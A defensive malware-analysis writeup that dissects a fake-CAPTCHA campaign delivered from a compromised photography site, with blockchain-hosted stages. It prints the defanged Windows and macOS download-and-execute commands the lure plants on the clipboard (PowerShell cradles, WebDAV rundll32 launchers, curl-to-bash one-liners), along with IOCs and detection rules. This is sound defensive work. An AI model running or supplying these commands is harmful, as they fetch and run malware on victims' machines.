




# When the CAPTCHA Is the Attack: Anatomy of a ClickFix + EtherHiding Campaign

*A real-world walkthrough of a fake "I'm not a robot" page that tricks victims into infecting themselves — and hides its malware on the blockchain so it can't be taken down.*

> **Disclaimer.** This is a defensive security writeup published for **education and awareness only**. All indicators and commands are **defanged** and **no live malware is included** — do not re-fang, execute, or use anything here for unauthorized or unlawful activity. It is provided **"as is," without warranty**. The compromised website referenced was an **innocent, hacked third party**, not the attacker. Views are the author's own and do not represent any employer. See the [README](README.md) for the full disclaimer and CC BY 4.0 license.

---

## Introduction

For twenty years we've trained users to fear the obvious: the suspicious attachment, the misspelled login page, the "you've won a prize" pop-up. Attackers have noticed. The most effective campaigns of the last two years barely look like attacks at all — they look like the small, boring chores we click through every day. **CAPTCHA checks. "Verify you are human." Cloudflare loading screens.**

This article dissects one such campaign, observed in the wild in June 2026, that combines two trends security teams should understand:

1. **ClickFix** — a social-engineering technique that doesn't *deliver* malware to the victim; it convinces the victim to **run the malware themselves**, by disguising a malicious command as "verification steps."
2. **EtherHiding** — a hosting technique where the malware's payload is stored **inside smart contracts on a public blockchain** instead of on a normal web server, making it effectively impossible to seize, block, or take down.

What makes this case especially instructive is the **entry point**: the malicious link did not arrive from a stranger. It came by **email from a friend** — the owner of a small photography business whose website and mailbox had been compromised. The attacker didn't break the victim's defenses; they borrowed someone the victim already trusted.

This is a story about how a chain of individually-clever tricks adds up to an attack that sails past spam filters, antivirus, sandboxes, and domain blocklists — and why the last and best line of defense is an informed human.

---

## The 30-second version

> A person received an email from a friend with a link. The friend's website had been hacked. Visiting it showed a normal page, then a fake "I'm not a robot" box. The box told the visitor to press **Win + R**, then **Ctrl + V**, then **Enter** — claiming this completes the verification. In reality the page had silently copied a malicious command to the clipboard. Following the "steps" pasted and ran that command, which quietly downloaded and executed malware using the computer's own built-in tools. The malware's code was hidden on a blockchain and a public code CDN, so there was nothing for traditional blocklists to catch.




---

## Stage 0 — The human entry point: a friend's compromised site

The campaign began with an **email from a trusted contact** — the owner of `ironischlederphotography[.]com`, a legitimate small photography business running WordPress. Both the website and, by extension, the owner's outreach were abused to distribute the link.

This is the part no technical control fixes cleanly. The sender was real. The relationship was real. There was no malicious attachment and no spoofed domain to flag. **Trust was the exploit.**

> **Lesson:** Compromised legitimate websites are the preferred delivery infrastructure for modern campaigns. A link from someone you know is not evidence that the destination is safe — their account or site may be the thing that's compromised.

---

## Stage 1 — A normal-looking page with one hidden line

The photography site loaded normally — real content, real images. But the attacker had injected a **single line** into the page's `<head>`:

```html
<script src="data:text/javascript;base64,<obfuscated code>"></script>
```

Two clever details:

- The malicious code is embedded **inline as a `data:` URI**, not loaded from an external `.js` file. Many scanners that check for known-bad script URLs see nothing to check.
- The code is **obfuscated** (variable names like `_0x3ee7`), so a casual "view source" reveals only noise.

Decoded, that script is a tiny *loader*. It doesn't contain the attack — it knows how to **go and fetch** the attack.

---

## Stage 2 — EtherHiding: fetching malware from the blockchain

Here is the standout technique. Instead of downloading its next stage from a web server, the loader makes a **read-only call to a smart contract on Binance Smart Chain (BSC) testnet**:

```
POST https://bsc-testnet-rpc.publicnode[.]com/
{"method":"eth_call","params":[{"to":"0xA1dec…d2e","data":"0x6d4ce63c"}, "latest"], ...}
```

The contract returns a blob of data, which the loader decodes and runs (`eval(atob(...))`). That blob is the next stage of the attack.

**Why attackers love this ("EtherHiding"):**

- **There is no server to take down.** The payload lives in a public, immutable, decentralized ledger. You can't suspend the hosting account or sinkhole a domain.
- **It's resilient and updatable.** The attacker can change what the contract returns to swap payloads at will.
- **It blends in.** A blockchain RPC endpoint is not on anyone's malware blocklist.
- **It's cheap and anonymous.** Reading contract data is free and requires no attacker-controlled infrastructure in the request path.

This technique has been associated with financially-motivated threat clusters (publicly tracked under names such as **UNC5142 / "CLEARFAKE"**) and is increasingly bolted onto ClickFix lures.

### How this infrastructure differs from classic phishing

Traditional phishing rents infrastructure you can find and take down — a lookalike domain, a hosting account, a credential-harvesting server. This campaign deliberately avoids all of it, which is what makes it so durable:

| Function | Classic phishing | This ClickFix + EtherHiding campaign |
|---|---|---|
| **Delivery** | Attacker-registered lookalike domain | **Compromised legitimate site** (a real business's WordPress) |
| **Payload hosting** | Attacker web server / bulletproof host | **Public blockchain smart contracts** (immutable) + a **trusted CDN** (jsDelivr/GitHub) |
| **Next-stage fetch** | Download from an attacker domain | Read-only **`eth_call`** to a public RPC node — nothing a URL blocklist recognizes |
| **Malware delivery** | Malicious attachment / EXE download | **No file at all** — the victim pastes a command that runs built-in OS tools |
| **C2 / exfil** | Attacker domain or IP | **WebDAV-over-HTTPS** to a throwaway host; per-victim subdomains |
| **Take-down surface** | Registrar, host, mailbox | **Almost none** — a blockchain can't be seized; a CDN/GitHub abuse report is the only handle |

The through-line: **every component is either something you already trust** (a friend's site, GitHub, a CDN, HTTPS) **or something nobody can take down** (a blockchain). There is no attacker-owned server sitting in the request path to block — which is precisely why the human "paste this" step ends up being the load-bearing control.

---

## Stage 3 — "Am I being watched?" and choosing a target

The stage fetched from the blockchain is not the lure yet — first it runs **anti-analysis checks**:

- **`isHeadless()`** — detects automated browsers used by security researchers (Selenium/`webdriver`, HeadlessChrome, Puppeteer, Playwright) and tell-tale signs like a zero-size window.
- **`isLocalhost()`** — detects if it's running on a local or internal lab address (localhost, `192.168.x`, `10.x`, `172.16–31.x`).

If either trips, it **silently bails** — in this sample it literally logs `"stop watching us :)"`. Only a real human on a real browser proceeds.

It then **fingerprints the OS** and pulls a *different* blockchain-hosted payload for **Windows** vs **macOS** (Linux and everything else get nothing). It even tags each victim with a unique ID and reports successful infections back to a separate "goal reached" tracking contract — the criminals run their own analytics.

> **Lesson:** Modern web malware actively fights back against sandboxes and analysts. "It looked benign in my sandbox" is no longer reassuring.

---

## Stage 4 — The fake CAPTCHA and the ClickFix trick

Now the lure appears: a polished, full-screen overlay styled like Google reCAPTCHA — *"I'm not a robot,"* with a spinner and a *"Complete these Verification Steps"* panel:

> **To better prove you are not a robot, please:**
> 1. Press &amp; hold the **Windows Key + R**.
> 2. In the verification window, press **Ctrl + V**.
> 3. Press **Enter** on your keyboard to finish.

It even shows a reassuring fake line: *✅ "I am not a robot — reCAPTCHA Verification ID: 146820."*

What the victim **cannot** see is that the page already ran `navigator.clipboard.writeText(...)` and **planted a malicious command on the clipboard.** The "verification steps" are simply a friendly way of saying:

- **Win + R** → open the Windows **Run** dialog
- **Ctrl + V** → paste the attacker's command
- **Enter** → execute it

This is the entire genius of **ClickFix**: the malware is never "delivered" in a way a filter can catch. The victim copies and runs it by hand, so to the operating system it looks like a deliberate, user-initiated action.



*A real capture of the **live** attack — note the genuine address bar (`ironischlederphotography[.]com`) and the real photography page behind a fake "Verification Steps" overlay (still serving in July 2026). The panel walks the user through **Win + R → Ctrl + V → Enter**; the command the page silently copied to the clipboard is shown beneath the shot — **the victim never sees it**, which is the entire point. The "reCAPTCHA Verification ID" is randomised theatre.*

---

## Stage 5 — What actually runs (Windows)

The command planted on the clipboard has **two observed variants** — the original, and a reworked one captured live in July 2026:

**Variant A — June:**
```
wmic process call create "powershell -WI 1 -nop -c iex(irm cdn.jsdelivr[.]net/gh/arinao7/6e91d58f-acdf/key)"
```

**Variant B — July:**
```
conhost.exe --headless --inheritcursor --width 80 --height 30 -- cmd /v:on /c "set a=pu&set b=shd&set c=run&set d=dll32&for %x in (!a!!b!) do @%x \\oroavju.hi-lo[.]bet@SSL@443\<id> & !c!!d! pf.ch,#1"
```

Variant B drops the jsDelivr/PowerShell hop and goes **straight to WebDAV**: `conhost.exe --headless` runs the shell with no window, and `cmd /v:on` delayed-expansion rebuilds the verbs from fragments (`pu`+`shd` = `pushd`, `run`+`dll32` = `rundll32`) so the tell-tale strings never appear literally. Same end state — mount the WebDAV share and `rundll32 pf.ch,#1`.

Breaking down **Variant A**:

| Piece | Meaning | Why it's used |
|---|---|---|
| `wmic process call create` | Launch a process via Windows Management Instrumentation | The new process is parented to a system service (`WmiPrvSE.exe`), **not** to the Run dialog — this breaks "suspicious parent/child" detections |
| `powershell -WI 1` | PowerShell with **window hidden** | The victim sees nothing happen |
| `-nop` | No profile | Avoids interference, runs clean |
| `iex(irm …)` | `Invoke-Expression(Invoke-RestMethod …)` | **Download a script and run it directly in memory** |
| `cdn.jsdelivr[.]net/gh/arinao7/…` | A trusted public CDN that mirrors GitHub repositories | The payload rides on infrastructure developers use every day — it bypasses domain reputation |

The downloaded script (recovered from the public CDN/GitHub) is tiny but potent:

```powershell
$si=([wmiclass]'Win32_ProcessStartup').CreateInstance();$si.ShowWindow=0;
([wmiclass]'Win32_Process').Create('cmd /c pushd \\c868.mabanishimi[.]xyz@SSL\<id> & rundll32 pf.ch,#1',$null,$si)
```

This:

- Spawns a **hidden** process (again via WMI, again breaking parentage).
- Mounts a remote **WebDAV share over HTTPS** (`\\…@SSL\…`) — a network drive served on port 443, so it looks like ordinary encrypted web traffic.
- Runs **`rundll32 pf.ch,#1`** — executing a malicious DLL **straight from the remote share**, with no obvious executable file written to disk.

Every step uses **tools already built into Windows** (`wmic`, `powershell`, `rundll32`, WebDAV). This is "**living off the land**," and it's why there's no neat "virus file" for antivirus to quarantine.

---

## Stage 5 (macOS) — the same trick, aimed at the Terminal

ClickFix is **not a Windows-only problem.** This campaign served a parallel macOS payload (chosen automatically back in Stage 3 by fingerprinting the operating system). Mac users are increasingly targeted precisely because many assume "Macs don't get malware" and let their guard down.

The macOS lure shows the same fake-CAPTCHA overlay, but the "verification steps" are adapted to the Mac:

> 1. Open **Terminal** (e.g. press **⌘ + Space**, type *Terminal*, press **Return**).
> 2. Press **⌘ + V** to paste.
> 3. Press **Return** to finish.

And the command silently planted on the clipboard — **both observed variants** (only the C2 host rotates):

**Variant A — June:**
```bash
/bin/bash -c "$(curl -A 'Mac OS X 10_15_7' -fsSL '<victim-id>.enfejwin[.]com/?ublib=<id>')"; echo "BotGuard: Answer the protector challenge. Ref: 73282"
```

**Variant B — July:**
```bash
/bin/bash -c "$(curl -A 'Mac OS X 10_15_7' -fsSL '<victim-id>.prozhedownload[.]net/?ublib=<id>')"; echo "BotGuard: Answer the protector challenge. Ref: 73282"
```

Structurally identical — only the C2 host rotated (`enfejwin[.]com` → `prozhedownload[.]net`). What it does:

- **Download-and-run, in memory** — `/bin/bash -c "$(curl …)"` uses *command substitution* (not a pipe): `curl` fetches a script from the attacker's server and `bash` executes its output immediately, with nothing written to disk.
- The victim's unique ID is encoded into the **subdomain** (`<victim-id>.enfejwin[.]com`) and query string — per-victim tracking and gating, the same playbook as the Windows analytics contract.
- **The `BotGuard: … Ref: 73282` text is decoy, not the payload.** It is appended with `echo` purely as cover. The fake CAPTCHA primed the victim to expect a "BotGuard challenge / Ref 73282", so seeing that familiar string makes the pasted line feel like a harmless *verification token* — disguising the fact that the real command is the `curl`-fetched script ahead of it, which has already executed. The dangerous part is everything **before** the `echo`.



*The same kit, macOS variant — captured **live** from `ironischlederphotography[.]com`, with the command it silently planted on the clipboard shown beneath (the victim never sees this). Only the "steps" change — **Open Terminal → ⌘ + V → Enter** — and the payload swaps the Windows launcher for a `curl | bash` one-liner from the rotating `*.prozhedownload[.]net` C2. Same social-engineering skeleton, different operating system.*

> **Critical point for Mac fleets:** macOS **Gatekeeper and notarization do *not* stop this.** Those protections inspect downloaded *applications*; a `curl | bash` one-liner is an interpreted shell script that never becomes a quarantined app, so it slips straight past Gatekeeper. The Mac is not inherently safe here — the human step is, again, the deciding control.

---

## Why this campaign beats traditional defenses

| Defense | Why it misses this attack |
|---|---|
| **Spam filter** | The email came from a real, trusted friend; the link was a real, legitimate (but hacked) website. |
| **Domain/URL blocklist** | Stages live on a **blockchain** and a **trusted CDN (jsDelivr/GitHub)** — not on blockable bad domains. |
| **Antivirus (file scanning)** | Nothing malicious is written to disk; execution is in-memory and via built-in OS tools. |
| **Sandbox detonation** | The payload **detects sandboxes** and refuses to run; it also gates by OS and rejects automated browsers. |
| **"Suspicious parent process" rules** | WMI re-parents the malicious process under a system service. |
| **The user's instinct** | The lure impersonates a routine, trusted UI (a CAPTCHA) and frames the dangerous action as a *security check*. |

The attack is a stack of individually-modest tricks that together remove almost every automated tripwire — leaving the **human decision** as the deciding control.

---

## Indicators of Compromise (IOCs)

> Shared for community defense. The *attacker* infrastructure is below. `ironischlederphotography[.]com` is an **innocent, compromised** legitimate site — included so others can recognize and help remediate it, not as a malicious actor.

**Delivery**
- `ironischlederphotography[.]com` — compromised WordPress site serving the injected loader (victim, not attacker)

**Malware delivery / C2**
- `cdn.jsdelivr[.]net/gh/arinao7/6e91d58f-acdf/key` (and `raw.githubusercontent[.]com/arinao7/6e91d58f-acdf/main/key`) — Windows downloader (**Variant A**, June: `wmic` → `powershell iex(irm …)`)
- GitHub user/repo: `arinao7` / `arinao7/6e91d58f-acdf` — **report for takedown**
- `c868.mabanishimi[.]xyz` — WebDAV C2 host (Variant A); remote DLL `pf.ch` (ordinal `#1`)
- `oroavju.hi-lo[.]bet` (base `hi-lo[.]bet`) — WebDAV C2 host (**Variant B**, July): launcher shifted to `conhost.exe --headless` and drops the jsDelivr/PowerShell hop — the pasted command goes **straight to WebDAV**, with `pushd`/`rundll32` obfuscated via `cmd /v:on` delayed expansion. **Both variants are live — block both hosts and treat the `@SSL` WebDAV mount + `rundll32 pf.ch,#1` as the durable indicators.**
- macOS C2 — **both observed, block both:** `prozhedownload[.]net` (`*.prozhedownload[.]net`, current — `44tnfuwf.prozhedownload[.]net`, July) and `enfejwin[.]com` (`*.enfejwin[.]com`, June). The host rotates, so the durable indicator is the **pattern** `<8-char>.<host>/?ublib=<uuid>` with UA `Mac OS X 10_15_7`.
- `ip-info.ff.avast[.]com` — abused (legitimate) IP-geolocation service used to fingerprint victims

**EtherHiding — BSC contracts** (read via `eth_call`, selector `0x6d4ce63c`, RPC `bsc-testnet-rpc.publicnode[.]com`)
- `0xA1decFB75C8C0CA28C10517ce56B710baf727d2e` — stage-1 router
- `0x46790e2Ac7F3CA5a7D1bfCe312d11E91d23383Ff` — Windows stage
- `0x68DcE15C1002a2689E19D33A3aE509DD1fEb11A5` — macOS stage
- `0xf4a32588b50a59a82fbA148d436081A48d80832A` — infection ("goal reached") tracker

**Host artifacts (Windows) — both delivery variants**
- Browser cookie `cjs_id`
- **Launcher:** `wmic.exe` spawning `powershell.exe` with `iex(irm …)` to jsDelivr / raw GitHub (**Variant A**, June) **or** `conhost.exe --headless … cmd /v:on` spawning a shell (**Variant B**, July)
- `rundll32.exe` loading a DLL from a WebDAV/UNC path — `pushd \\…@SSL\…` then `rundll32 pf.ch,#1` (Variant B splits these via `cmd /v:on` delayed expansion, so match the `@SSL` UNC and `pf.ch,#1`, not the literal verb)
- Outbound 443 to the WebDAV C2 — `c868.mabanishimi[.]xyz` (Variant A) or `oroavju.hi-lo[.]bet` (Variant B); a browser making `eth_call` POSTs to `*.publicnode[.]com`

---

## Detection & hunting ideas

For defenders running EDR or SIEM. **The Windows delivery has two known variants — hunt for both:**

- **Clipboard-to-Run pattern:** `explorer.exe` → `cmd.exe`/`powershell.exe` shortly after a clipboard write — via `wmic process call create` (Variant A) **or** `conhost.exe --headless … cmd /v:on` (Variant B).
- **PowerShell download cradles (Variant A):** cmdlines containing `iex(irm`, `Invoke-Expression`, `Invoke-RestMethod`/`Invoke-WebRequest` pointing at `jsdelivr[.]net` or `raw.githubusercontent[.]com`.
- **conhost headless launcher (Variant B):** `conhost.exe --headless …` starting a shell — especially `cmd /v:on` with `set`-built tokens (delayed-expansion string obfuscation).
- **LOLBin from network share (both):** `rundll32.exe` (or `regsvr32`/`mshta`) loading from a UNC/WebDAV path — match `\\*@SSL*` and `rundll32 … pf.ch,#1`, **not** the literal verb (Variant B obfuscates `pushd`/`rundll32`).
- **Anomalous parentage:** a shell/PowerShell parented by `WmiPrvSE.exe` (Variant A) — note Variant B does **not** use WMI, so don't rely on this alone.
- **Browser talking to a blockchain:** outbound POSTs from a browser process with body `"method":"eth_call"` to public RPC nodes (`*.publicnode[.]com`, etc.) — highly unusual for normal browsing.
- **WebDAV egress:** `svchost`/`rundll32` WebClient connections to non-corporate hosts over 443 — e.g. `c868.mabanishimi[.]xyz` (Variant A) or `oroavju.hi-lo[.]bet` (Variant B).

---

## Investigation lead: re-detonate with a headless browser

The payload is **OS-gated** (it fingerprints the OS and serves a different command to Windows vs macOS) and **sandbox-aware** (it bails — logging `"stop watching us :)"` — on headless/automation tells and on localhost/RFC1918 addresses). That makes a **headless browser driven from an isolated VM** the most reliable way to pull both per-OS payloads and to check for infrastructure rotation. Method:

- **Spoof the target OS across all three signals the router checks** — `navigator.userAgent` **+** `navigator.platform` **+** `userAgentData.platform`. The kit tests `isWindows` *before* `isMac`, so spoofing only the user-agent (leaving `navigator.platform = "Win32"`) still lands you on the Windows branch; override `platform` via an init script **and** CDP `Emulation.setUserAgentOverride`.
- **Clear the anti-analysis gate** — a normal Chromium with populated `navigator.languages`/plugins passes the kit's `isHeadless()` heuristic; run from a public egress so `isLocalhost()` doesn't trip.
- **Capture the command without running it** — hook `navigator.clipboard.writeText` (and/or read `navigator.clipboard.readText()`) after clicking the fake checkbox, then screenshot the modal. Nothing is ever pasted or executed.

This is exactly how the rotation surfaced: between the June capture and a July re-detonation, the macOS C2 moved (`enfejwin[.]com` → `prozhedownload[.]net`) **and the Windows chain was reworked** — from `wmic` + `powershell iex(irm jsdelivr…)` to a `conhost.exe --headless` launcher going straight to WebDAV, with `pushd`/`rundll32` obfuscated via `cmd /v:on`. Detections built only on the first sample had already gone blind to the newer build.



**Guardrails:** isolated VM + non-corporate, non-attributable exit only. Visiting the live page contacts attacker infrastructure — it exposes your egress IP and pings the operator's victim-tracking contract — so never from an analyst workstation or corporate VPN, and never paste the captured command into a shell.

---

## How to protect people (and yourself)

**The one rule that defeats ClickFix entirely:**

> **No legitimate website, CAPTCHA, or error page will ever ask you to press Win + R, open PowerShell/Terminal, or copy-and-paste a command to "prove you're human" or "fix" something.** If you're ever asked to do that — stop. It is an attack.

For everyone:

- A CAPTCHA you can solve only by **typing into a system box** is fake. Real CAPTCHAs stay inside the web page.
- A link from a friend is not a safety guarantee — their account or site may be compromised. When in doubt, verify out-of-band.
- If you think you ran something like this: **disconnect from the network and tell IT/Security immediately.** Speed matters far more than embarrassment.

For organizations:

- **Awareness training** specifically on ClickFix / fake-CAPTCHA "paste this command" lures — show people the exact screens.
- **Disable or restrict the Run dialog and `wmic`** where feasible; constrain PowerShell (Constrained Language Mode, ScriptBlock logging, AMSI).
- **Block outbound WebDAV** to non-corporate destinations; alert on the WebClient service starting.
- **Restrict/monitor `mshta`, `rundll32`, `regsvr32`** spawning from shells or loading remote content (attack-surface-reduction rules).
- **Hunt** the patterns above and pivot on web-proxy + identity logs for anyone who visited the lure.

---

## Platform hardening: take away the lure's key step

ClickFix depends on the victim being able to **open a command surface and run a pasted command.** On managed devices you can remove or restrict exactly that step. Treat these as defense-in-depth layers, not a single silver bullet — a determined variant can pivot to a different launcher, so pair "remove the entry point" with "block the execution."

### Windows — disable Win + R via Group Policy (GPO)

The dominant ClickFix flow is **Win + R → Ctrl + V → Enter.** Removing the Run dialog kills that exact step:

- **GPO:** `User Configuration → Administrative Templates → Start Menu and Taskbar → "Remove Run menu from Start Menu" → Enabled`.
- **Equivalent registry** (deployable via GPO Preferences / Intune to targeted groups): `HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` → DWORD **`NoRun = 1`**.
- **Effect:** the **Win + R** shortcut and the Start-menu *Run* entry stop working — the precise UI the lure instructs.
- **Scope it** to non-technical user groups (OUs) so IT and developers keep the Run dialog.

Pair the Win+R block with controls that stop the *execution*, in case a variant says "open PowerShell" instead:

- **ASR rule "Block process creations originating from PSExec and WMI commands"** (GUID `d1e49aac-8f56-4280-b9ba-993a6d77406c`) — directly blocks the `wmic process call create …` primitive used in this campaign.
- **PowerShell Constrained Language Mode** + ScriptBlock/Module logging + AMSI.
- **Block outbound WebDAV** (the WebClient service) to non-corporate destinations; alert when WebClient starts.

### macOS — restrict the Terminal (the closest analog)

There is no single "disable the shortcut" toggle on macOS, and — as noted above — **Gatekeeper/notarization will not stop `curl | bash`.** The effective lever is restricting and monitoring the Terminal and shell execution through your **MDM** (Jamf, Intune, Kandji, Mosyle):

- **Block Terminal / iTerm launch for non-technical user groups** — e.g. Jamf **Restricted Software** (blocklist `Terminal.app` and `iTerm.app` by process name, kill-on-launch with a custom message), or an MDM "Allowed apps" restriction on supervised devices.
- **Binary allow-listing with Santa** (the open-source macOS binary-authorization tool, originally from Google, now maintained by North Pole Security — project: <https://santa.dev>, source: <https://github.com/northpolesec/santa>) in lockdown mode to control what is allowed to execute downstream. *Note:* Santa authorizes *binaries*, so on its own it won't block a `curl | bash` one-liner running through the already-trusted system `bash`/`curl`; its value here is default-deny coverage of the downstream binary stages.
- **Standard (non-admin) user accounts** — least privilege limits what a pasted script can reach.
- **PPPC / TCC configuration profiles** so a shell can't silently access Full Disk or other protected data — the consent prompt cannot be scripted away.
- **EDR behavioral rule:** Terminal/shell spawning `curl`/`wget` piped into `bash`/`sh`/`zsh`, or the `bash -c "$(curl …)"` pattern.

### Both platforms

- **DNS / web content filtering** to block the malware-fetch and C2 domains (see IOCs).
- **User awareness** remains the highest-leverage control — every technical layer above is a backstop for the moment a user is about to follow "verification steps."

---

## Responsible disclosure

The compromised photography website and its owner are **victims** of this campaign. The appropriate response is to help them clean and harden their site (and reset credentials), and to report the attacker-controlled GitHub repository and CDN path for takedown — not to treat the innocent site as the adversary.

---

## Conclusion

This campaign is a tidy illustration of where attacker innovation is heading: **away from breaking systems and toward borrowing trust.** It chains a hacked friend's email, a hidden script, a blockchain that can't be taken down, sandbox-evasion, a convincing fake CAPTCHA, and the victim's own hands — and in doing so slips past nearly every automated defense we've built.

The good news is that the whole elaborate chain still hinges on one human action that is **completely avoidable** once you know the pattern. Teach people the single rule — *real verification never asks you to run a command* — and this entire class of attack collapses.

*Stay curious, verify out-of-band, and never let a robot check turn you into the robot.*
